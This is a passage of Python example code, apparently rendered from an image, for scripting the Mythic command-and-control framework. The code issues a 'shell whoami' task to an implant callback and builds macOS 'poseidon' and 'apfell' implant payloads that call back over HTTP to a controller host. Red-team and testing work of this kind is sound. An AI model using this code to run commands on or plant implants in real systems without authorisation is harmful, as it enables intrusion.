 ```
        mythic=mythic_instance,
        command_name="shell",
        parameters="whoami",
        callback_id=156,
        timeout=60,
        return_on_status=mythic_classes.MythicStatus.Completed,
    )
    output = await mythic.waitfor_for_task_output(
        mythic=mythic_instance, task_id=task["id"], timeout=60
    )
    print(f"Got the following output the 2nd time: {output}\n") """

    # ################ Wait for Multiple Subscriptions ################
    """await asyncio.gather(
        new_callbacks(mythic_instance=mythic_instance),
        new_tasks(mythic_instance=mythic_instance),
        all_tasks(mythic_instance=mythic_instance),
        all_tasks_by_callback(mythic_instance=mythic_instance, callback_id=156),
    )"""

    # ################ Adding MITRE ATT&CK Techniques To Task ################

    """ await mythic.add_mitre_attack_to_task(
        mythic=mythic_instance, task_id=1, mitre_attack_numbers=["T1033"]
    ) """

    # ################ Create a Payload ################
    """ await mythic.create_payload(
        mythic=mythic_instance,
        payload_type_name="poseidon",
        filename="test.bin",
        operating_system="macOS",
        commands=[],
        c2_profiles=[
            {
                "c2_profile": "http",
                "c2_profile_parameters": {
                    "callback_host": "http://192.168.53.139",
                    "callback_port": "80",
                },
            }
        ],
        build_parameters=[{"name": "mode", "value": "default"}],
        return_on_complete=True,
    )
    await mythic.create_payload(
        mythic=mythic_instance,
        payload_type_name="apfell",
        filename="apfell_test.js",
        operating_system="macOS",
        c2_profiles=[
            {
                "c2_profile": "http",
                "c2_profile_parameters": {
                    "callback_host": "http://192.168.53.139",
                    "callback_port": "80",
                },
            }
        ],
    ) """

    # ################ Add User to Operation ################
    """ try:
```
